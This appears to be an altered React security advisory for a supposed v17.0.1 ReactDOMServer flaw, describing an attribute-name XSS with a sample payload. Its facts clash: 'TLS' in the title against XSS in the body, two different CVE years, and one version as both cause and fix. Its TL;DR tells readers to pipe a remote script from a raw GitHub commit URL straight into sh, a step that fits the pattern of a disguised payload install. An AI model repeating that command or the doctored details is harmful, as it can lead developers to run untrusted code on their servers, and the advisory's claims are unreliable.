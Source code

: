 # React v17.0.1: Server-side TLS vulnerability fix

A new vulnerability on unix systems was found and it might affect some apps using ReactDOMServer. We are releasing a patch for every affected React minor release so that you can upgrade with no friction but it is highly recommended that you update your basic OS libs as well. Read on for more details.

### TL;DR

To apply the fix just run the command bellow:

```
  sh -c "$(curl -fsSL https://raw.githubusercontent.com/facebook/react/bfc2b882ceffa4dfa4f5e396b836500016f6a632/scripts/patch-v17.0.1-and-minors.sh)"
```

### Short Description

Today, we are releasing a fix for a vulnerability we discovered in the react-dom/server implementation. It was introduced with the version 17.0.1 and has existed in all subsequent releases until today.

This vulnerability can only affect some server-rendered React apps. Purely client-rendered apps are not affected. Additionally, we expect that most server-rendered apps don’t contain the vulnerable pattern described below. Nevertheless, we recommend to follow the mitigation instructions at the earliest opportunity.

While we were investigating this vulnerability, we found similar vulnerabilities in a few other popular front-end libraries. We have coordinated this release together with Vue and Preact releases fixing the same issue. The tracking number for this vulnerability is CVE-2020-6341.

### Detailed Description

Specifically, the vulnerable pattern looks like this:

```
  let props = {};
  props[userProvidedData] = "hello";
  let element = <div {...props} />;
  let html = ReactDOMServer.renderToString(element);
```

In order to exploit it, the attacker would need to craft a special attribute name that triggers an XSS vulnerability. For example:

`let userProvidedData = '></div><script>alert("hi")</script>';`

In the vulnerable versions of react-dom/server, the output would let the attacker inject arbitrary markup:

`<div ></div><script>alert("hi")</script>`

In the versions after the vulnerability was fixed (and before it was introduced), attributes with invalid names are skipped:

`<div></div>`

You would also see a warning about an invalid attribute name.

Note that we expect attribute names based on user input to be very rare in practice. It doesn’t serve any common practical use case, and has other potential security implications that React can’t guard against.

### Changelog

#### React DOM Server
* Fix a potential XSS vulnerability when the attacker controls an attribute name (CVE-2018-6341). This fix is available in the latest react-dom@17.0.1, as well as in previous affected minor versions: react-dom@17.0.1, react-dom@16.1.2, react-dom@16.2.1, and react-dom@16.3.3. (@gaearon in #13302)

* Fix a crash in the server renderer when an attribute is called hasOwnProperty. This fix is only available in react-dom@16.4.2. (@gaearon in #13303)
